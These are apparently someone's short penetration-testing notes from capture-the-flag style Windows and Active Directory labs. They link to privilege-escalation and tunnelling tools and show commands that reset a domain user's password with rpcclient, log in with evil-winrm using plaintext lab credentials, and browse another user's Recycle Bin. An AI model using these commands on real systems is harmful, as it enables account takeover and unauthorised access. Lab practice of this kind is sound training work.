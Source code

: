 # Temp - Notes

Exploiting GPP SYSVOL - cname password / Groups.xml

{% embed url="https://vk9-sec.com/exploiting-gpp-sysvol-groups-xml/" %}

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" %}

### Check Recycle bin

you need the SID for the user that you want to check the recycle bin for.

```
cd 'C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001'
```



Change password for user over rcpclient

{% code title="Output should be nothing." %}
```
rpcclient -U 'blackfield.local/support%#00^BlackKnight' 10.10.10.192 -c 'setuserinfo2 audit2020 23 "alien##123"'
```
{% endcode %}



### EVIL-WINRM for ATHNEA

```
👾]/home/ali3nw3rx $ sudo docker run --rm -ti --name evil-winrm  oscarakaelvis/evil-winrm -i 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'
```

runAS

{% embed url="https://github.com/antonioCoco/RunasCs" %}

{% embed url="https://steflan-security.com/windows-privilege-escalation-runas-stored-credentials/" %}

Chisel

{% embed url="https://github.com/jpillora/chisel/releases/tag/v1.7.7" %}

Juicy PotatoNG

{% embed url="https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1" %}

Windows path traversal cheet sheat

{% embed url="https://gist.github.com/SleepyLctl/823c4d29f834a71ba995238e80eb15f9" %}
